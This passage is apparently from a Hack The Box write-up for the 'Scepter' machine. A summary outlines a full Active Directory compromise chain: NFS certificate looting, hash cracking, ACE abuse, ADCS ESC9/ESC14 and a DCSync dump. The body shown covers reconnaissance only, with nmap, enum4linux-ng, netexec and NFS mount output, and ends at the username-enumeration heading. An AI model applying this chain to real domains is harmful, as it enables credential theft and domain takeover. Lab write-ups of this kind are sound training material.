







## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Domain Enumeration](#Domain-Enumeration)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
    - [Enumeration of Port 2049/TCP](#Enumeration-of-Port-2049TCP)
- [Username Enumeration](#Username-Enumeration)
- [Cracking Hashes using John the Ripper](#Cracking-Hashes-using-John-the-Ripper)
- [Authentication as d.baker](#Authentication-as-dbaker)
    - [Time and Date Synchronization](#Time-and-Date-Synchronization)
    - [Grabbing NT Hash for d.baker](#Grabbing-NT-Hash-for-dbaker)
- [Active Directory](#Active-Directory)
    - [Dumping Active Directory Configuration using Bloodhound](#Dumping-Active-Directory-Configuration-using-Bloodhound)
- [Privilege Escalation to a.carter](#Privilege-Escalation-to-acarter)
    - [ForceChangePassword Access Control Entry (ACE) Abuse](#ForceChangePassword-Access-Control-Entry-ACE-Abuse)
- [Lateral Movement](#Lateral-Movement)
    - [GenericAll Access Control Entry (ACE) Abuse](#GenericAll-Access-Control-Entry-ACE-Abuse)
- [Foothold](#Foothold)
- [Active Directory Certificate Services (AD CS) Part 1](#Active-Directory-Certificate-Services-AD-CS-Part-1)
    - [ESC9: No Security Extensions](#ESC9-No-Security-Extensions)
    - [Privilege Escalation to h.brown](#Privilege-Escalation-to-hbrown)
        - [Kerberos Configuration](#Kerberos-Configuration)
    - [WinRM Access](#WinRM-Access)
- [user.txt](#usertxt)
- [Enumeration](#Enumeration)
- [Active Directory Certificate Services (AD CS) Part 2](#Active-Directory-Certificate-Services-AD-CS-Part-2)
    - [ESC14 Scenario B: Target with X509RFC822 (email)](#ESC14-Scenario-B-Target-with-X509RFC822-email)
    - [Virtual Environment Preparation](#Virtual-Environment-Preparation)
    - [Installation of the Certipy Fork](#Installation-of-the-Certipy-Fork)
    - [Testing for ESC14](#Testing-for-ESC14)
    - [Privilege Escalation to p.adams](#Privilege-Escalation-to-padams)
- [Privilege Escalation to System](#Privilege-Escalation-to-System)
- [root.txt](#roottxt)

## Summary

The box starts with port `2049/TCP` open which allows to mount the `NFS share` called `helpdesk`. The share contains a `certificate` and a `key` for a user named `baker` among three more `.pfx files` for other users. Having a closer look at the `certificate` of `baker` shows his potential `username` which can be verified using `kerbrute`. The `.pfx files` however can be used to generate `hashes` using `pfx2john` in order to `crack` them. All three use the same `password` which also applies to the `key` of `baker`. It can be used to create the `.pfx` file for `baker` and then authenticate using `Certipy` to grab his `NT hash`. With the `NT hash` in hand it is possible to `dump` the `configuration` of the `Active Directory`. `BloodHound` then shows that the user `d.baker` has `ForceChangePassword` permissions on `a.carter`. Abusing this `Access Control Entry (ACE)` the way is open to `move laterally` to the `IT SUPPORT group` which has `GenericAll` permissions set on a `OU` called `STAFF ACCESS CERTIFICATE`. This also indicates the presence of a `Certificate Authority (CA)`. By using `Certipy` again a `vulnerable template` for `ESC9` can be found. The user which needs to be attacked with `ESC9` is called `h.brown` and has the `ACE` of `CanPSRemote` set. By creating a `computer object` on behalf of `a.carter` it is possible to change the `User Principal Name (UPN)` as well as the `email` of `d.baker` to `h.brown` and then use the `StaffAccessCertificate` to receive the `hash` of `h.brown`. This step grants `foothold` on the box and access to the `user.txt`. As next step a `fork` from a `Pull Request (PR)` of `Certipy` is needed which contains necessary changes for `ESC14`. The user `h.brown` is member of `CMS (Certificate Management Services)` which allows to use `ESC14 Scenario B: Target with X509RFC822 (email)` on `p.adams` which can `DCSync`. Repeating the steps with a `dumm email address` extracts the `hash` which then can be used to dump `NTDS.dit` and grab the `root.txt` as `Administrator`.

## Reconnaissance

### Port Scanning

We started with our typical `port scan` procedure using `Nmap`. On this box one particular port stood out of the ordinary and that was port `2049/TCP`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.248.205
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-19 21:02 CEST
Nmap scan report for 10.129.248.205
Host is up (0.13s latency).
Not shown: 985 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-20 03:04:04Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scepter.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-04-20T03:05:06+00:00; +7h59m59s from scanner time.
| ssl-cert: Subject: commonName=dc01.scepter.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.scepter.htb
| Not valid before: 2024-11-01T03:22:33
|_Not valid after:  2025-11-01T03:22:33
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scepter.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.scepter.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.scepter.htb
| Not valid before: 2024-11-01T03:22:33
|_Not valid after:  2025-11-01T03:22:33
|_ssl-date: 2025-04-20T03:05:05+00:00; +7h59m59s from scanner time.
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: scepter.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-04-20T03:05:06+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.scepter.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.scepter.htb
| Not valid before: 2024-11-01T03:22:33
|_Not valid after:  2025-11-01T03:22:33
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scepter.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.scepter.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.scepter.htb
| Not valid before: 2024-11-01T03:22:33
|_Not valid after:  2025-11-01T03:22:33
|_ssl-date: 2025-04-20T03:05:05+00:00; +7h59m59s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_ssl-date: 2025-04-20T03:05:05+00:00; +7h59m59s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.scepter.htb
| Subject Alternative Name: DNS:dc01.scepter.htb
| Not valid before: 2024-11-01T00:21:41
|_Not valid after:  2025-11-01T00:41:41
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-04-20T03:04:58
|_  start_date: N/A
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 301.94 seconds
```

### Domain Enumeration

 Even due to the fact that we got the name of the `domain` and the `Domain Controller` already in the output of `Nmap`, we ran a quick check using `enum4linux-ng` if there is any quick win we could go for.

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.248.205
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.248.205
[*] Username ......... ''
[*] Random Username .. 'cwqhacbx'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 10.129.248.205    |
 =======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ======================================================
|    Domain Information via LDAP for 10.129.248.205    |
 ======================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: scepter.htb

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.248.205    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 10.129.248.205    |
 ===========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                         
  SMB 1.0: false                                                                                                                                                                                                                            
  SMB 2.02: true                                                                                                                                                                                                                            
  SMB 2.1: true                                                                                                                                                                                                                             
  SMB 3.0: true                                                                                                                                                                                                                             
  SMB 3.1.1: true                                                                                                                                                                                                                           
Preferred dialect: SMB 3.0                                                                                                                                                                                                                  
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 =============================================================
|    Domain Information via SMB session for 10.129.248.205    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC01                                                                                                                                                                                                                 
NetBIOS domain name: SCEPTER                                                                                                                                                                                                                
DNS domain: scepter.htb                                                                                                                                                                                                                     
FQDN: dc01.scepter.htb                                                                                                                                                                                                                      
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: SCEPTER                                                                                                                                                                                                                     

 ===========================================
|    RPC Session Check on 10.129.248.205    |
 ===========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 =====================================================
|    Domain Information via RPC for 10.129.248.205    |
 =====================================================
[+] Domain: SCEPTER
[+] Domain SID: S-1-5-21-74879546-916818434-740295365
[+] Membership: domain member

 =================================================
|    OS Information via RPC for 10.129.248.205    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: '1809'                                                                                                                                                                                                                          
OS build: '17763'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

 =======================================
|    Users via RPC on 10.129.248.205    |
 =======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 ========================================
|    Groups via RPC on 10.129.248.205    |
 ========================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 ========================================
|    Shares via RPC on 10.129.248.205    |
 ========================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ===========================================
|    Policies via RPC for 10.129.248.205    |
 ===========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ===========================================
|    Printers via RPC for 10.129.248.205    |
 ===========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 33.43 seconds
```

At this point we added `scepter.htb` and `dc01.scepter.htb` to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts  
127.0.0.1       localhost
127.0.1.1       kali
10.129.248.205  scepter.htb
10.129.248.205  dc01.scepter.htb
```

### Enumeration of Port 445/TCP

This time port `445/TCP` didn't lead us anywhere.

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.248.205 -u '' -p '' --shares
SMB         10.129.248.205  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.248.205  445    DC01             [+] scepter.htb\: 
SMB         10.129.248.205  445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.248.205 -u ' ' -p ' ' --shares
SMB         10.129.248.205  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.248.205  445    DC01             [-] scepter.htb\ :  STATUS_LOGON_FAILURE
```

```shell
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.248.205 -u 'guest' -p ' ' --shares
SMB         10.129.248.205  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
SMB         10.129.248.205  445    DC01             [-] scepter.htb\guest:  STATUS_LOGON_FAILURE
```

### Enumeration of Port 2049/TCP

Therefore we moved on to enumerate port `2049/TCP` to see what `mounts` are eventually available and accessible. We found a share called `helpdesk`.

```shell
┌──(kali㉿kali)-[~]
└─$ showmount -e 10.129.248.205 
Export list for 10.129.248.205:
/helpdesk (everyone)
```

We created a folder within `/mnt`, called it like the box and mounted the share into it.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo mount -t nfs -o vers=4,nolock 10.129.248.205:/helpdesk /mnt/scepter 
[sudo] password for kali:
```

The share contained a `certificate` (`baker.crt`) and `key` (`baker.key`) of a user named `baker` and `.pfx` files for the users `clark`, `lewis` and `scott`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo ls -lah /mnt/scepter
total 25K
drwx------ 2 nobody nogroup   64 Nov  2 04:02 .
drwxr-xr-x 3 root   root    4.0K Apr 19 21:07 ..
-rwx------ 1 nobody nogroup 2.5K Nov  2 04:01 baker.crt
-rwx------ 1 nobody nogroup 2.0K Nov  2 04:01 baker.key
-rwx------ 1 nobody nogroup 3.3K Nov  2 04:01 clark.pfx
-rwx------ 1 nobody nogroup 3.3K Nov  2 04:01 lewis.pfx
-rwx------ 1 nobody nogroup 3.3K Nov  2 04:02 scott.pfx
```

We found the exact `username` of `baker` by having a look at the content of the `certificate`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ cat baker.crt 
Bag Attributes
    friendlyName: 
    localKeyID: DC 2B 20 65 C3 0D 91 40 E8 37 B5 CC 06 0F EA 66 5D 3B 7C 4E 
subject=DC=htb, DC=scepter, CN=Users, CN=d.baker, emailAddress=d.baker@scepter.htb
issuer=DC=htb, DC=scepter, CN=scepter-DC01-CA
-----BEGIN CERTIFICATE-----
MIIGTDCCBTSgAwIBAgITYgAAADLhpcORUTEJewAAAAAAMjANBgkqhkiG9w0BAQsF
ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHc2NlcHRl
cjEYMBYGA1UEAxMPc2NlcHRlci1EQzAxLUNBMB4XDTI0MTEwMjAxMTM0NloXDTI1
MTEwMjAxMTM0NlowdDETMBEGCgmSJomT8ixkARkWA2h0YjEXMBUGCgmSJomT8ixk
ARkWB3NjZXB0ZXIxDjAMBgNVBAMTBVVzZXJzMRAwDgYDVQQDEwdkLmJha2VyMSIw
IAYJKoZIhvcNAQkBFhNkLmJha2VyQHNjZXB0ZXIuaHRiMIIBIjANBgkqhkiG9w0B
AQEFAAOCAQ8AMIIBCgKCAQEApYOPHHtw8CsIIS6mFkoI8CtD5I4Tu36JDSObdnYZ
kZ1eKW/Vif1rXL9LHykKhJbTGuJsEDSHKt7mYs0r49JU3HrW2ZIosuIhSq25gcql
73tnI7RoCc8n6zUZBQaiEJbbXAhcKJ1Tkarc3ZX3U9aHoKkklMJhyH01D/3xvGsM
6XbCFHby3HmnwouKph9/a7e2XPynHnYvwbU3POkJPm+P45Ko5r18VuELdHJBGOVx
9/aOxqQ9wU1Rqi4O711dWAenr8wfG0IUIEm2hmPKAfAJw+dKgpspe9TtUZlJs0M4
ZLa/xdhdySmr9snryirgSYD9KEzWx+0NsqaHfmM1aqsZEwIDAQABo4IDATCCAv0w
HQYDVR0OBBYEFDeUzFfjpMtVYxpHj4PQblDCNGNRMB8GA1UdIwQYMBaAFOuQVDjS
pmyJasttTaS6dRVgFSfjMIHKBgNVHR8EgcIwgb8wgbyggbmggbaGgbNsZGFwOi8v
L0NOPXNjZXB0ZXItREMwMS1DQSxDTj1kYzAxLENOPUNEUCxDTj1QdWJsaWMlMjBL
ZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXNj
ZXB0ZXIsREM9aHRiP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmpl
Y3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBwQYIKwYBBQUHAQEEgbQwgbEw
ga4GCCsGAQUFBzAChoGhbGRhcDovLy9DTj1zY2VwdGVyLURDMDEtQ0EsQ049QUlB
LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
Z3VyYXRpb24sREM9c2NlcHRlcixEQz1odGI/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29i
amVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwFwYJKwYBBAGCNxQCBAoe
CABVAHMAZQByMA4GA1UdDwEB/wQEAwIFoDApBgNVHSUEIjAgBgorBgEEAYI3CgME
BggrBgEFBQcDBAYIKwYBBQUHAwIwQwYDVR0RBDwwOqAjBgorBgEEAYI3FAIDoBUM
E2QuYmFrZXJAc2NlcHRlci5odGKBE2QuYmFrZXJAc2NlcHRlci5odGIwSwYJKwYB
BAGCNxkCBD4wPKA6BgorBgEEAYI3GQIBoCwEKlMtMS01LTIxLTc0ODc5NTQ2LTkx
NjgxODQzNC03NDAyOTUzNjUtMTEwNjBEBgkqhkiG9w0BCQ8ENzA1MA4GCCqGSIb3
DQMCAgIAgDAOBggqhkiG9w0DBAICAIAwBwYFKw4DAgcwCgYIKoZIhvcNAwcwDQYJ
KoZIhvcNAQELBQADggEBAFWYPZ/Y8mSso3zi1qv7Js+Xid0bZ6SB3jURvtQEl8Cg
qdozKurK89xtNPNXRUca4AANvUOApaRAMN3L/d+16mzxe9DEDWvBUd7rVRIrSL88
6wGrw+YIJQGMxB6IKnHGbu4t2gQUOMQgufsX26KU9qxM6WC6VHunYaOe+xS+ATME
MlY6HCeNmfhA+ovH2iRpXWtuDKESjHJG5ZJ3pYo4fT47a2DtAc4xaN80ECaHmwta
qrMrIi+tj8AXLAraDVJtlTFNb80+t3fF+FttL2+HjcG8Op1spwKkFLlsT37QiFdO
ta2X/V1roCSq1/ExhIHWr5u2tkQxJxcmR8mbbM+0tWo=
-----END CERTIFICATE-----
```

| Username |
| -------- |
| d.baker  |

## Username Enumeration

